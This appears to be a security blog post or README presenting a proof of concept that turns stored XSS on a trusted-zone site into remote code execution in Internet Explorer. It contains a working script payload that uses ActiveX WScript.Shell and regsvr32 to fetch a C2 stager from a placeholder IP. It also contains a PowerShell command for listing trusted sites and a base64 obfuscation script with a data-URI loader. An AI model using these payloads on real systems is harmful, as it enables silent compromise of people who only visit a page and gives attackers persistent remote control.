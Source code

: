 ## XSS to Shell and beyond... 

So I started having a think about XSS (Cross-Site Scripting) issues and whether they could be more serious further.... 

XSS has really always been more about stealing sessions, manipulating users, defacing sites and capturing creds if youre lucky. However, in the post i am going to demonstrate how abusing a trusted domain can lead to one time RCE or a C2 stager on the victims machine. 
Providing certain conditions are met, this could mean that by a user passively visiting a vulnerable site, that there machine could pass us control or permit arbitrary command execution.

### Pre-requisites for this PoC:

- MS Office needs to be on the victims machine (The technique uses VBScript (inside ActiveX) to execute the stager.)
- The users must be using IE (tested to version 11 on Windows 7)
- The vulnerable site needs to be in one of the target companies 'trusted domains/sites', This permits IE to run ActiveX on medium risk setting.

### PoC Summary:

This PoC utilises the trust relationship between the GPO settings applied on workstations and servers to whitelisted trusted domains.

The victim browses to one of these domains where the site is vulnerable to persistent XSS (server stored payload). Non-persistent can also work but this increases the difficulty to exploit.

The payload utilised creates a new activeX object, Wscript.Shell. This object accesses the underlying OS command line. This object can be used to call the Command 'Run' where a command can be specified and executed.

In this case I use 'regsrv32' to fetch a stager beacon from my C2 server. From this the C2 payload is run as a separate process to the browser and window. Therefore if the user closes the browser or session I still have remote command.

### Payload:

The PoC payload described above (where X is the IP of the C2 server):
```
<script>

	var r = new ActiveXObject("WScript.Shell").Run("cmd /c regsvr32 /s /n /u /i:http://xx.xx.xx.xx:80/a scrobj.dll");

</script>
```
A trick to find out the trusted sites, pop open powershell and run the following:
```
Get-Item "HKLM:\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMapKey" | select -ExpandProperty Property
```
The visiting user will be prompted once with an ActiveX prompt, if they click yes the payload is executed.

### Obfuscate the payload:

```
#!/usr/bin/python

import sys

if len(sys.argv) <= 1:
	sys.exit('please give a string to encode, surrounded by quotes')
else:
	a = sys.argv[1]
	str = a.encode('base64','strict')
	print str
```
```
./base64encode.py 'payload string'
```

```
<script src="data:text/javascript;base64,{insert base64 value here}"></script>
```
